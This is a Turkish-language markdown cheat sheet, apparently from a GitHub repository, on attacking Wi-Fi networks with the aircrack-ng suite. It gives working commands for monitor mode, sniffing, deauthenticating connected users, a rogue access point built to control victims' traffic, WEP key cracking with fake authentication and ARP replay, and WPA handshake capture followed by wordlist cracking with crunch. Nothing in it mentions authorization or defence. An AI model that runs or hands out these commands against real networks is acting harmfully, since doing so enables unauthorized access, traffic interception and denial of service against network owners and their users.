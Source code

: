 ## Web Cracking

`sudo apt-get install aircrack-ng` scripti yükler.

`ifconfig` diyip wireless interface ismimizi öğrentikten sonra. `sudo airmon-ng start wlp3s0` verilen interface yi monitor moda alır. `ifconfig` dediğimizde interfacemizin isminin **"wlp3s0mon"** olarak değşitiğini göreceksiniz.

`sudo airmon-ng stop wlp3s0mon` managed moda tekrar geri çevirir.



> Diğer bir yöntem airmon-ng kullanmadan
>
> 
>
> ifconfig wlp3s0 down
>
> iwconfig wlp3s0 mode monitor - monitor moda çevirir.
>
> ifconfig wlp3s0 up
>
> ifconfig wlp3s0 down
>
> iwconfig wlp3s0 mode managed - managed moda çevirir.
>
> ifconfig wlp3s0 up

### airodump-ng ile sniffing / airodump-ng kullanımı

monitor moda altıktan sonra `sudo airodump-ng wlp3s0` diyip başlatabiliriz.

```bash
BSSID - MAC adresi
PWR - Rakam büyüdükçe bize en yakını anlamına gelir ne kadar küçükse okadar uzaktır bizden.
Data - Elimizde olan datalar web crackingde kullanılır.
CH - Channel (kanal) yapılan yayının kanalı.
ENC - Encryption type.
ESSID - Netwokün adıdır. 
```

belirli bir ağa özel airodump-ng çalıştırma temel komut aşağıdaki gibi.

`airodump-ng --channel <channel> --bssid <bssid> --write <çıktı.txt> <interface>` çıktıdaki üst kısım tarama yaptığımız networkün bilgilerini gösterir alt kısımdaki bilgiler ise o ağa bağlı olan cihazların bilgilerini içerir `--write` parametresi - Çıktı isminde birçok dosya uzantısı var .cap uzantılı olan dosyayı wireshark a atarak 
ayrıntılı bilgi toplayabiliriz.

### Deauthentication Attack

Ağa girmeden ağdaki bir hedefin internet bağlantısını kesmek ve ağdan atmak için kullanılan bir saldırı türüdür.

`aireplay-ng --deauth <#packets> -a <AP(Access Point)> <interface>` 

`aireplay-ng --deauth <#packets> -a <AP(Access Point)> -c <target> <interface>` 

Access Point saldıracağımız ağın BSSID si 

Packets integer değer alır. ex: aireplay-ng --deauth 10000

hedefin çok kısa bir sürede bağlantısının kopmasını istiyorsak 5-10 gibi az bir paket sayısı girmemiz gerekir 10000 gibi fazla sayılar kullanırsak sürekli ve uzun süreli bağlantı kopar.

### Fake Access Point

İnternet bağlantımızı yayarak sahte bir Access Point oluşturacağız bağlanan kurbanların internet trafiğini kontrol altına alacağız. Bunun için mana-toolkit scriptini kullanacağız.

`sudo apt-get install mana-toolkit` mana-toolkit configration;

/etc/mana-toolkit/hostapd-mana.conf dosyasını açalım. 

**interface:** wifi_arayüzü 

**ssid:** internetin_adı 

**bssid:** mac 

adresimiz buradan istediğimiz yapılandırmayı yaptıktan sonra kaydedelim.
**/usr/share/mana-toolkit/run-mana/start-nat-simple.sh** dosyasını açalım. 

**upstream:** bağlantıyı aldığımız arayüz 
**phy:** yayın yapacağımız arayüz.

Bu yapılandırmaları yaptıktan sonra.
**bash /usr/share/mana-toolkit/run-mana/start-nat-simple.sh** komutunu yazarak sahte Access Pointimizi 
çalıştıralım.



### WEP Cracking

Wifi interfacemizi monitor moda altıktan sonra. airodump-ng ile ağ hakkında bilgi toplayacağız daha sonra aircrack-ng ile parola ele geçirme işlemini yapacağız.

`airodump-ng wlp3s0` - tarama/keşif 

`airodump-ng --channel <channel> --bssid <bssid> --write <çıktı> <interface>`

`aircrack-ng <file_name(çıktı.cap)>`

`aircrack-ng` başarılı sonuç döndürürse **"key found"** yazısını göreriz ve karşısında parola yazar fakat burada dikkat edilecek kısım paroladaki **":"** karakterlerini çıkartıpta girmemiz gerekir asıl parola odur.

### Fake Authentication (Sahte Yetkilendirme)

WEP cracking işlemi yaparken parolasını kırdığımız ağda sürekli bir data akışı olması gerekiyor buyüzden işimize yarayabilecek diğer bir saldırı türüde Fake Authentication. Kendimizi o ağa fake olarak yetkilendireceğiz ve paket yollayacağız (packet injection). `aireplay-ng --fakeauth 0 -a <target_macaddress> -h <host/kali_macaddress> <interface>` 0 paket sayısını belirtir (Yetkilendirme için genelde 0 yeterli olur).

**Association Successful** yazısını görürsek başarılı olmuş demektir.
`aireplay-ng --arpreplay -b <target_macaddress> -h <host/kali_macaddress> <interface> ` sahte yetkilendirme yaptıktan sonra bu komutla paket yollarız ve ağdaki data sayısını arttırırız.

### WPA Cracking

Wifi interfacemizi monitor moda altıktan sonra. airodump-ng ile ağ hakkında bilgi toplayacağız. Burada WEP ten farklı olarak bir handshake yakalammamız gerekiyor modeme bir cihaz bağlandığında 4 lü el sıkışma işlemi gerçekleşir (handshake). Modeme yeni birirnin bağlanmasını bekleyebiliriz yada bir kullanıcıyı ağdan atarak (Deauthentication) tekrar bağlanmasını sağlayabiliriz. WPA Cracking işlemi için wordlist kullanmamız gerekiyor.

`airodump-ng wlp3s0 ` - tarama/keşif

`airodump-ng --channel <channel> --bssid <bssid> --write <çıktı> <interface>`  Ağa üzel bilgi toplama ve bağlı cihazları görme.

`aireplay-ng --deauth <#packets> -a <AP(Access Point)> -c <target> <interface>` Deauthentication

**WPA handshake : <handshake>** handshake yakaladığımızda sağ üst köşede görünür. (çıktı ismindeki dosyanın 
içeriğinde de bulunur :))

> WPA için wordlist oluşturalım bunun için crunch kullanabiliriz.
>
> `crunch <min> <max> <char> -t <pattern> -o <file>`
>
> **pattern:** düzen
>
> **ex:** `crunch 8 10 123!+-*% -t m@@p -o wordlist` 
>
> **ex:** `crunch 8 9 abcdefgh wordlist -o wordlist`
>
> `aircrack-ng <handshake_file> -w <wordlist>`
>
> 